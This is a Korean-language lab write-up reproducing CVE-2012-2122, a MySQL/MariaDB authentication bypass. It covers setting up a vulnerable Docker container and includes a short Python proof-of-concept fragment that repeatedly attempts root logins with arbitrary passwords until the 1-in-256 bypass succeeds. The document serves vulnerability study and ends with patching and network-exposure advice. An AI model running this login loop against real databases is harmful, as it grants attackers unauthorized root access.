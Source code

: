 # CVE-2012-2122

**Contributors**

-   [배소정(@baethwjd2)](https://github.com/baethwjd2)

<br/>

### 요약

-   CVE-2012-2122는 MySQL과 MariaDB의 특정 버전에서 발견된 **인증 우회** 취약점임
-   특정 버전의 MySQL은 비밀번호의 해시값을 memcmp 함수로 캐스팅하여 인증함
-   memcmp 함수는 -128 ~ 127 사이의 값을 반환하므로, 잘못된 비밀번호를 입력하더라도 1/256의 확률로 로그인에 성공할 수 있음
-   따라서 임의의 비밀번호로 로그인을 반복함으로써, 악의적인 공격자가 DB의 root 계정을 쉽게 획득할 수 있음

<br/>

### 환경 구성 및 실행

-   `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행 (취약점이 보고된 MySQL 5.5.22의 컨테이너 이미지 사용)
-   `pip install pymysql` 커맨드로 poc.py 실행을 위한 pymysql 패키지 설치
-   `python3 poc.py` 를 실행해 DB의 **root 계정**을 탈취할 수 있음. 유저 정보를 출력하여 root 계정으로 로그인이 됐는지 확인함

<br/>

### poc.py

1/256의 확률로 로그인에 성공할 수 있으므로, 충분한 횟수만큼 로그인을 반복 시행함

```
for i in range(1, 10001):
    password = str(i)
    conn = pymysql.connect(user=user, password=password, host=host, port=port, charset='utf8')
```

유저 정보를 확인하여 root 계정 로그인에 성공했음을 확인함

```
cursor.execute("SELECT user()")
```

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   해당 취약점을 통해 공격자는 root를 포함한 특정 사용자 계정에 로그인하여, 인가되지 않은 권한을 획득할 수 있음.
-   이러한 상황을 방지하기 위해, 가장 먼저 관리자는 DB 서버의 네트워크가 노출되지 않도록 노력해야 함. 즉, 인가되지 않은 액세스를 차단할 수 있도록 미리 서버를 설정해야 함. 그리고 주기적으로 서비스 취약점을 모니터링하고 패치해야 함.
